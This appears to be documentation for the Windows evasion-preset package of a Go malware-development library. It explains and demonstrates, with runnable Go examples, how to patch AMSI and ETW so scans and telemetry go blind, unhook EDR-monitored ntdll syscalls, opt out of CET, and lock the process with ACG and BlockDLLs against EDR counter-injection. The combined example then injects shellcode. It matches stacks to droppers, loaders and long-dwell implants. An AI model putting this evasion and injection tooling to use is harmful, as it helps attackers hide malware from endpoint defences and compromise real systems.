

---
---

# Preset — Ready-to-Use Evasion Combinations

[<- Back to Evasion](README.md)

**Package:** `evasion/preset`
**Platform:** Windows only
**Detection:** Varies by preset (Low for Minimal, Medium for Stealth, High for Aggressive)

Preset bundles the most common evasion techniques into four opinionated
configurations keyed on risk tolerance. Each preset returns
`[]evasion.Technique` for use with `evasion.ApplyAll()`.

---

## TL;DR

You're about to do something noisy (load shellcode, run a script,
inject into another process). Defenders watch for that activity
through AMSI, ETW, userland API hooks, and process mitigation
policies. Presets bundle pre-composed evasion stacks so you don't
have to compose them yourself.

Pick the right preset based on what you're staging:

| You're running… | Use | What it disables | Reversible | When to pick |
|---|---|---|---|---|
| A dropper / stager / first-stage | [`Minimal()`](#minimal) | AMSI + ETW | Yes (process restart) | Smallest footprint. No disk reads, no process changes — just three memory writes. |
| Post-ex tooling that needs to inject | [`Stealth()`](#stealth) | Minimal + classic unhook of 10 NTAPI functions | Yes | Sweet spot for most injectors. Handles the EDR userland-hook layer. |
| Modern Win11 24H2+ with CET enforcement | [`Hardened()`](#hardened) | Stealth + CET opt-out | Yes | Same as Stealth but APC-delivered shellcode survives ENDBR64 enforcement. |
| Long-dwell implant where stealth > flexibility | [`Aggressive()`](#aggressive) | Hardened + ACG + BlockDLLs | **No** (process-wide, irreversible) | After all RWX allocation + injection is done. ACG forbids future RWX writes; BlockDLLs forbids unsigned DLL loads. |

⚠ **Aggressive is irreversible at the process level**: ACG and
BlockDLLs are mitigation policies the kernel enforces process-wide
until the process exits. Apply LAST in your chain — anything
needing RWX afterwards will fail.

⚠ **One preset per process**: presets stack functionally
(`Stealth` ⊃ `Minimal`), but applying two of them double-patches
AMSI/ETW (idempotent — second patch is a no-op write of the
same bytes, but wastes integrity-check budget if EDR re-hashes).

Standalone helper:
[`CETOptOut()`](https://pkg.go.dev/github.com/oioio-space/maldev/evasion/preset#CETOptOut)
returns a single Technique callers can pull into a custom stack
without committing to a full preset. No-op when CET isn't enforced.

---

## Primer — vocabulary

Five terms recur on this page:

> **Technique** — a value satisfying `evasion.Technique`
> interface (`Apply(caller) error`). Presets return slices of
> these; `evasion.ApplyAll` runs them in order and collects
> per-Technique failures into a map.
>
> **AMSI (Anti-Malware Scan Interface)** — Microsoft's hook
> point inside script hosts (PowerShell, JScript, VBScript) and
> the .NET runtime. Asks the registered AV provider "is this
> string / buffer / assembly malicious?" before execution.
> Patching `AmsiScanBuffer` to return clean blinds it.
>
> **ETW (Event Tracing for Windows)** — kernel telemetry
> framework. The `Microsoft-Windows-Threat-Intelligence`
> provider in particular flags suspicious memory operations.
> Patching `EtwEventWrite*` + `NtTraceEvent` silences events
> from this process.
>
> **Userland hook** — an inline patch (typically JMP rel32) an
> EDR installs at the start of an NTAPI function so it can
> inspect arguments before the syscall fires. Classic unhooking
> restores the original prologue bytes from a fresh ntdll image
> on disk.
>
> **CET (Control-flow Enforcement Technology)** — Intel
> hardware feature Microsoft enforces on Win11 24H2+ pool
> dispatchers. Requires every indirect-jump target (including
> APC-delivered shellcode) to start with an ENDBR64 instruction.
> `CETOptOut` opts the process out so APC-delivered shellcode
> doesn't need the prefix. Most current shellcode generators
> don't emit ENDBR64.
>
> **ACG (Arbitrary Code Guard) / BlockDLLs** — process
> mitigation policies. ACG forbids new RWX allocations + RX
> writes after enable. BlockDLLs forbids loading unsigned DLLs.
> Both irreversible — applied LAST in Aggressive for that
> reason.

---

## How It Works

A preset is just a function returning `[]evasion.Technique`. `evasion.ApplyAll` iterates the slice and invokes each technique's `Apply()` in order, collecting per-technique failures into a map. Nothing magic: the value is curation, not new code.



- `preset.Minimal()` — AMSI + ETW only. No disk reads, no mitigation policies.
- `preset.Stealth()` — Minimal + classic unhook of the 10 functions in `unhook.CommonHookedFunctions`.
- `preset.Hardened()` — full AMSI + full ETW + full ntdll unhook + CET opt-out. CET-aware sweet spot: APC-delivered shellcode survives Win11 24H2+ ENDBR64 enforcement without losing the ability to inject afterwards.
- `preset.Aggressive()` — Hardened + ACG + BlockDLLs. Irreversible.

`preset.CETOptOut()` — standalone Technique callers can pull into a custom stack. No-op when CET is not enforced.

Order matters for Aggressive — ACG and BlockDLLs permanently restrict the process, so all RWX allocation and injection must be done before applying it.

---

## Minimal

**Risk:** Low  
**Use case:** Droppers, stagers, initial-access payloads where staying off
radar matters more than bypassing advanced EDR hooks.

### Included techniques

| Technique | Package | What it does |
|-----------|---------|--------------|
| `amsi.ScanBufferPatch()` | `evasion/amsi` | Overwrites `AmsiScanBuffer` entry with `xor eax,eax; ret` — all AMSI scans return clean |
| `etw.All()` | `evasion/etw` | Patches all `EtwEventWrite*` functions and `NtTraceEvent` with `xor rax,rax; ret` — ETW events are silently dropped |

### Rationale

AMSI and ETW are the two highest-signal telemetry paths for script/reflective
loaders. Patching only these two functions has the smallest footprint: no disk
reads of ntdll, no process spawning, no mitigation policy changes. The patch
surface is three small memory writes. Suitable whenever the primary concern is
bypassing in-memory script scanning rather than defeating userland hooks on
injection primitives.

---

## Stealth

**Risk:** Medium  
**Use case:** Post-exploitation tooling, injectors, and loaders that need to
perform process injection without inline hook interference from EDR agents.

### Included techniques

Stealth is a superset of Minimal — all Minimal techniques apply, plus:

| Technique | Package | What it does |
|-----------|---------|--------------|
| `amsi.ScanBufferPatch()` | `evasion/amsi` | (from Minimal) AMSI bypass |
| `etw.All()` | `evasion/etw` | (from Minimal) ETW silence |
| `unhook.Classic("NtAllocateVirtualMemory")` | `evasion/unhook` | Restores first 5 bytes of syscall stub from on-disk ntdll |
| `unhook.Classic("NtWriteVirtualMemory")` | `evasion/unhook` | Same for write primitive |
| `unhook.Classic("NtProtectVirtualMemory")` | `evasion/unhook` | Same for protect primitive |
| `unhook.Classic("NtCreateThreadEx")` | `evasion/unhook` | Same for thread creation |
| `unhook.Classic("NtMapViewOfSection")` | `evasion/unhook` | Same for section mapping |
| `unhook.Classic("NtQueueApcThread")` | `evasion/unhook` | Same for APC-based injection |
| `unhook.Classic("NtSetContextThread")` | `evasion/unhook` | Same for thread hijacking |
| `unhook.Classic("NtResumeThread")` | `evasion/unhook` | Same for thread resume |
| `unhook.Classic("NtCreateSection")` | `evasion/unhook` | Same for section creation |
| `unhook.Classic("NtOpenProcess")` | `evasion/unhook` | Same for process opening |

All 10 functions come from `unhook.CommonHookedFunctions` via `unhook.CommonClassic()`.

### Rationale

EDR/AV products hook the 10 functions in `CommonHookedFunctions` because they
are the core primitives for process injection and shellcode execution. Classic
unhooking reads the original prologue bytes from the clean on-disk ntdll.dll
and writes them back — no process spawning, just targeted 5-byte patches.
This is surgical: only restore what is likely hooked, minimise the number of
memory writes, and avoid the large-region writes of FullUnhook that are
easier to detect via integrity checks. The combination of AMSI+ETW silence
plus unhooking gives adequate coverage for most injection scenarios without
the irreversible side effects of Aggressive.

---

## Aggressive

**Risk:** High  
**Use case:** Red team finals, assumed-breach scenarios, long-dwell implants
where maximum evasion is worth trading away compatibility and reversibility.

> **CRITICAL: ACG is irreversible.**
> `acg.Guard()` calls `SetProcessMitigationPolicy(ProhibitDynamicCode=1)`.
> After this call, `VirtualAlloc(PAGE_EXECUTE_*)` and related calls fail for
> the remainder of the process lifetime. You MUST complete all shellcode
> injection and RWX memory allocation BEFORE calling `preset.Aggressive()`.
> Applying it beforehand will break your own injection code.

### Included techniques

| Technique | Package | What it does |
|-----------|---------|--------------|
| `amsi.All()` | `evasion/amsi` | Patches both `AmsiScanBuffer` and `AmsiOpenSession` — full AMSI neutralisation |
| `etw.All()` | `evasion/etw` | Patches all `EtwEventWrite*` and `NtTraceEvent` |
| `unhook.Full()` | `evasion/unhook` | Replaces the entire ntdll `.text` section from the on-disk copy — removes every inline hook in one operation |
| `acg.Guard()` | `evasion/acg` | Enables Arbitrary Code Guard — blocks EDR from injecting executable code into this process (irreversible) |
| `blockdlls.MicrosoftOnly()` | `evasion/blockdlls` | Blocks loading of non-Microsoft-signed DLLs — prevents EDR agent DLLs from being injected (irreversible) |

### Rationale

Aggressive trades reversibility for depth. `amsi.All()` patches both AMSI
entry points rather than just `ScanBuffer`, closing the bypass gap around
session-level checks. `unhook.Full()` replaces the entire `.text` section
rather than patching individual functions — guaranteed to remove every hook,
at the cost of a larger and more conspicuous memory write. ACG and BlockDLLs
are process mitigation policies that harden the process against EDR
counter-injection; because they are kernel-enforced and irreversible, they
provide the strongest possible protection but must be the last step. This
combination is appropriate when the mission is high-value and the dwell time
is long enough that EDR will attempt active response.

---

## Usage Examples

### Quick start — apply a preset at startup

The shortest "blind the EDR before doing anything risky" pattern.
Pick a preset, hand it to `evasion.ApplyAll`, log per-technique
failures (the map is empty when everything succeeds).

For the simpler "I only want one error to return" shape use
[`evasion.ApplyAllAggregated`](#applyallaggregated) instead —
same call, but the per-technique map is folded into a single
sorted-by-name error chain with an `N/M failed` prefix.

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
)

func main() {
    // Apply Stealth (= AMSI + ETW + 10x classic ntdll unhook).
    // Each technique runs in order; failures don't abort the
    // chain — they're collected per name in the returned map.
    errs := evasion.ApplyAll(preset.Stealth(), nil)
    for name, err := range errs {
        log.Printf("technique %q failed: %v (continuing)", name, err)
    }

    // ... your injector / loader runs here, with AMSI silent,
    //     ETW dropping events, and ntdll prologues clean.
}
```

What just happened, in order:

1. `amsi.ScanBufferPatch()` overwrote the entry of
   `AmsiScanBuffer` with `xor eax, eax; ret` → every AMSI scan
   from this process now returns "clean".
2. `etw.All()` did the same to `EtwEventWrite*` and
   `NtTraceEvent` → ETW providers receive no events from us.
3. `unhook.CommonClassic()` ran 10 small reads of the on-disk
   `ntdll.dll` to get clean prologue bytes for the typical
   EDR-hooked syscalls (NtAllocateVirtualMemory,
   NtProtectVirtualMemory, NtCreateThreadEx, …) and patched
   the in-memory copies back to those bytes.

What this DOES NOT do:

- Hide the process. Process Hacker / Task Manager still see you.
  Combine with [`pe/masquerade`](../pe/masquerade.md) for that.
- Defeat kernel-level callbacks. EDR drivers like
  `PsSetCreateProcessNotify` see your process spawn regardless
  of userland patches. Layer with
  [`evasion/kernel-callback-removal`](kernel-callback-removal.md)
  if you have admin and a BYOVD path.
- Survive process restart. AMSI/ETW patches are per-process —
  every new process you spawn needs its own preset application.

For the irreversible "hardened" stack (ACG + BlockDLLs on top),
see [Aggressive](#aggressive) below — apply it LAST after all
RWX work is done, or your subsequent injection calls will fail.

### Basic usage (one-liner)

```go
errs := evasion.ApplyAll(preset.Stealth(), nil)
```

### ApplyAllAggregated

`func ApplyAllAggregated(techs []Technique, caller Caller) error`

Companion to `ApplyAll` that folds the `map[string]error` of
per-technique failures into a **single** error whose `.Error()`
text lists every failing technique alphabetically, prefixed with
an `N/M techniques failed` counter. Returns `nil` when every
technique succeeded. Use this when the caller only wants a yes/no
signal + a single value to log or wrap.

```go
import (
    "log"

    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
)

func main() {
    if err := evasion.ApplyAllAggregated(preset.Aggressive(), nil); err != nil {
        log.Printf("evasion: %v", err)
        // continue anyway — defense in depth, not a hard prereq.
    }
}
```

End-to-end consumer:
[`examples/privesc-dll-hijack/amsi_windows.go::patchAMSI`](../../../examples/privesc-dll-hijack/amsi_windows.go)
collapses a 14-line `ApplyAll` + sort + `fmt.Errorf` block into
the one-liner above.

### Hardened — Win11 24H2+ with CET shadow stacks

Sweet spot when the host enforces CET: AMSI + ETW + full ntdll
unhook + CET opt-out, no irreversible per-process mitigations
(ACG, BlockDLLs) so the implant can still inject after the
preset runs.

```go
import (
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

func main() {
    caller := wsyscall.New(wsyscall.MethodIndirectAsm, wsyscall.NewHashGate())
    defer caller.Close()
    errs := evasion.ApplyAll(preset.Hardened(), caller)
    _ = errs
}
```

### `CETOptOut` standalone — pluck the technique into a custom stack

```go
stack := []evasion.Technique{
    amsi.ScanBufferPatch(),
    etw.All(),
    preset.CETOptOut(), // no-op when cet.Enforced() == false
    sleepmask.NewLocalForCurrentImage(),
}
_ = evasion.ApplyAll(stack, caller)
```

### With indirect syscalls (Caller)

```go
import (
    "log"
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

func main() {
    caller := wsyscall.New(wsyscall.MethodIndirect, wsyscall.NewHellsGate())
    errs := evasion.ApplyAll(preset.Stealth(), caller)
    for name, e := range errs {
        log.Printf("%s: %v", name, e)
    }
}
```

### Aggressive preset — inject first, harden after

```go
import (
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
    "github.com/oioio-space/maldev/inject"
)

func run(shellcode []byte) error {
    // Step 1: apply Stealth first so injection primitives are unhooked
    evasion.ApplyAll(preset.Stealth(), nil)

    // Step 2: do all injection / RWX allocation here
    if err := inject.ThreadPoolExec(shellcode); err != nil {
        return err
    }

    // Step 3: NOW apply Aggressive — ACG and BlockDLLs lock down the process
    // No further RWX allocation is possible after this point
    evasion.ApplyAll(preset.Aggressive(), nil)
    return nil
}
```

### Custom combination

```go
import (
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/amsi"
    "github.com/oioio-space/maldev/evasion/etw"
    "github.com/oioio-space/maldev/evasion/unhook"
)

// Custom: AMSI + ETW + only the functions we actually call
techniques := []evasion.Technique{
    amsi.ScanBufferPatch(),
    etw.All(),
    unhook.Classic("NtAllocateVirtualMemory"),
    unhook.Classic("NtCreateThreadEx"),
}
evasion.ApplyAll(techniques, nil)
```

---

## Decision Matrix

| Scenario | Preset | Rationale |
|----------|--------|-----------|
| Script dropper, no injection | Minimal | AMSI+ETW is all that matters for script scanning |
| Reflective loader executing shellcode | Stealth | Needs unhooked NtAllocateVirtualMemory + NtCreateThreadEx |
| Process injection via APC | Stealth | Needs NtQueueApcThread unhooked |
| Thread hijacking | Stealth | Needs NtSetContextThread + NtResumeThread unhooked |
| Long-dwell implant, post-injection | Aggressive | ACG+BlockDLLs harden against EDR counter-injection |
| Red team final objective, assumed-breach | Aggressive | Maximum evasion depth warranted |
| EDR with heavy hook coverage suspected | Aggressive (Full unhook) | Full .text replacement vs. targeted 5-byte patches |
| Constrained environment, compatibility required | Minimal | No disk reads, no irreversible changes |
| Custom: known hook set | Manual composition | Build from individual techniques for minimal footprint |

---

## Combined Example

Apply `preset.Stealth()` to unhook injection primitives, detonate a
shellcode payload, then lock the process down with `preset.Aggressive()`
so an EDR agent cannot counter-inject a monitoring DLL afterwards.

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
    "github.com/oioio-space/maldev/inject"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

func run(shellcode []byte) error {
    caller := wsyscall.New(wsyscall.MethodIndirect, wsyscall.NewTartarus())
    defer caller.Close()

    // 1. Stealth first — AMSI/ETW silenced + Nt* prologues restored.
    //    The unhook pass uses indirect syscalls via `caller`, so the
    //    restore itself does not touch hooked NtProtectVirtualMemory.
    if errs := evasion.ApplyAll(preset.Stealth(), caller); len(errs) > 0 {
        for name, err := range errs {
            log.Printf("stealth: %s: %v", name, err)
        }
    }

    // 2. Inject while RWX allocation is still legal.
    if err := inject.ThreadPoolExec(shellcode); err != nil {
        return err
    }

    // 3. Aggressive last — ACG + BlockDLLs lock the process.
    //    No further VirtualAlloc(PAGE_EXECUTE_*) possible after this.
    evasion.ApplyAll(preset.Aggressive(), caller)
    return nil
}
```

Layered benefit: Stealth removes the EDR's ability to observe the
injection (hooks gone, AMSI silent, ETW off), and Aggressive removes
its ability to react afterwards (ACG blocks code injection, BlockDLLs
blocks its module load) — the two presets cover detection and
remediation without overlapping.

---

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/evasion/preset`](https://pkg.go.dev/github.com/oioio-space/maldev/evasion/preset) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## See also

- [Evasion area README](README.md)
- [`evasion` umbrella](README.md) — the `Technique` interface every preset bundles
- [`win/syscall`](../syscalls/README.md) — supplies the `*Caller` every preset Technique consumes
